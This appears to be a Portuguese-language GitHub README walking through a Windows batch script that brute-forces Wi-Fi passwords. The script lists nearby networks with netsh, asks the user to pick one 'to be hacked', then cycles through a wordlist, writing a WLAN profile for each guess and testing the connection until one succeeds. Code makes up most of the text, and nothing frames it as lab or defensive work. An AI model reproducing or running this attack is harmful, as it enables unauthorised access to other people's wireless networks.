# BruteForce de Wi-fi com CMD ( Prompt de comando do Windows )

---

### Lembrando
**Antes de iniciar o programa, é preciso criar um wordlist.txt no mesmo diretório do programa**

---

Estarei mostrando uma forma de usar o método de Brute Force para Wi-Fi no Windows;
**Resaltando que este Brute Force foi feito no WIndows 10** *(Caso você for testar em uma outra versão, talvez não funcione por conta das "Frases de retorno que contém no código" mas pode ser editado de acordo com o que é retornado :D)* 

### Começando
O comando `netsh wlan show networks bssid` verifica todas as redes wi-fi disponíveis 
 ao alcance de seu adaptador de rede wireless

As únicas informações necessárias para mim seria o SSID e o tipo de Autenticação, para isso usei um filtro com o comando **Find** e **Findstr** abaixo:

```
netsh wlan show networks bssid | findstr "SSID Autentica" | findstr /v "BSSID">o
type o | find "SSID" | find /n ":">u
type o | find "Autentica" | find /n ":">i
type u
```
Na sequência usei o Comando **for** foi usado para separar o que eu queria
```
set /p bf="Na lista acima, escolha um numero do Wifi para ser hackeada: "

for /f "tokens=1,2* delims=:" %%a in ('find "[%bf%]" u') do (
	for /f "tokens=1* delims= " %%e in ("%%b") do (
		set select=%%e %%f
	)
)

for /f "tokens=1,2 delims=:" %%a in ('find "[%bf%]" i') do (
	
	for /f "tokens=1,2 delims= " %%e in ("%%b") do (
		for /f "tokens=1,2 delims=-" %%m in ("%%e") do (
			set tipo=%%m
		)
	)
)
```
No código abaixo eu peço para que converta o nome da rede wi-fi que no *For* foi separado e converta em hexadecimal, ( *Eu não encontrei uma forma de fazer isso no cmd, quem souber, adicione seu commit* ) porem eu utilizo o Python pra isso, ou algum site que faça a conversão essa parte é manual mesmo, por enquanto
```
cls
echo.
echo Copie o nome da rede "%select%" Sem as aspas e converta em Hexadecimal
echo.
echo.
set /p hexa="Cole o Hexadecimal aqui: "
cls
```
Agora vem a parte final onde eu adiciono um perfil de rede wireless para poder me conectar e testo a conexão; caso funcione ele conecta e finaliza;
```

for /f "tokens=*" %%a in (wordlist.txt) do (
	echo ^<?xml version="1.0"?^> >"Wi-Fi-%select%.xml"
	echo ^<WLANProfile xmlns="http://www.microsoft.com/networking/WLAN/profile/v1"^> >>"Wi-Fi-%select%.xml"
	echo 	^<name^>%select%^</name^> >>"Wi-Fi-%select%.xml"
	echo 	^<SSIDConfig^> >>"Wi-Fi-%select%.xml"
	echo 		^<SSID^> >>"Wi-Fi-%select%.xml"
	echo 			^<hex^>%hexa%^</hex^> >>"Wi-Fi-%select%.xml"
	echo 			^<name^>%Select%^</name^> >>"Wi-Fi-%select%.xml"
	echo 		^</SSID^> >>"Wi-Fi-%select%.xml"
	echo 	^</SSIDConfig^> >>"Wi-Fi-%select%.xml"
	echo 	^<connectionType^>ESS^</connectionType^> >>"Wi-Fi-%select%.xml"
	echo 	^<connectionMode^>auto^</connectionMode^> >>"Wi-Fi-%select%.xml"
	echo 	^<MSM^> >>"Wi-Fi-%select%.xml"
	echo 		^<security^> >>"Wi-Fi-%select%.xml"
	echo 			^<authEncryption^> >>"Wi-Fi-%select%.xml"
	echo 				^<authentication^>%tipo%PSK^</authentication^> >>"Wi-Fi-%select%.xml"
	echo 				^<encryption^>AES^</encryption^> >>"Wi-Fi-%select%.xml"
	echo 				^<useOneX^>false^</useOneX^> >>"Wi-Fi-%select%.xml"
	echo 			^</authEncryption^> >>"Wi-Fi-%select%.xml"
	echo 			^<sharedKey^> >>"Wi-Fi-%select%.xml"
	echo 				^<keyType^>passPhrase^</keyType^> >>"Wi-Fi-%select%.xml"
	echo 				^<protected^>false^</protected^> >>"Wi-Fi-%select%.xml"
	echo 				^<keyMaterial^>%%a^</keyMaterial^> >>"Wi-Fi-%select%.xml"
	echo 			^</sharedKey^> >>"Wi-Fi-%select%.xml"
	echo 		^</security^> >>"Wi-Fi-%select%.xml"
	echo 	^</MSM^> >>"Wi-Fi-%select%.xml"
	echo 	^<MacRandomization xmlns="http://www.microsoft.com/networking/WLAN/profile/v3"^> >>"Wi-Fi-%select%.xml"
	echo 		^<enableRandomization^>false^</enableRandomization^> >>"Wi-Fi-%select%.xml"
	echo 	^</MacRandomization^> >>"Wi-Fi-%select%.xml"
	echo ^</WLANProfile^> >>"Wi-Fi-%select%.xml"
	echo ===================================
	echo.
	echo Testando Senha: %%a
	echo Aguade...
	netsh wlan disconnect
	netsh wlan add profile filename="Wi-Fi-%select%.xml">nul
	ping /n 2 127.0.0.1>nul
	netsh wlan connect "%select%">nul
	ping /n 15 127.0.0.1>nul
	netsh wlan show interfaces | find "Estado">connectStatus
	for /f "tokens=1* delims=:" %%d in (connectStatus) do (
		for /f "tokens=1* delims= " %%m in ("%%e") do (
			if %%m EQU Desconectado (
				echo Acesso Negado
			)else (
				echo Acesso Permitido
				set password=%%a
				goto fim
			)
		)
	)
	echo.
	echo ===================================
	
)
```
Abaixo é só a finalização e exclusão dos arquivos;
```
:fim
echo.
echo.
echo Senha de acesso: %password%
del /f /q connectStatus
del /f /q a
del /f /q o
del /f /q u
del /f /q i
del /f /q "Wi-Fi-%select%.xml"
echo.
echo.
pause
```

Meu perfil Facebook: https://www.facebook.com/100001371062730
Autor: Dayvson Vinicius
Data Crição: 18/02/2018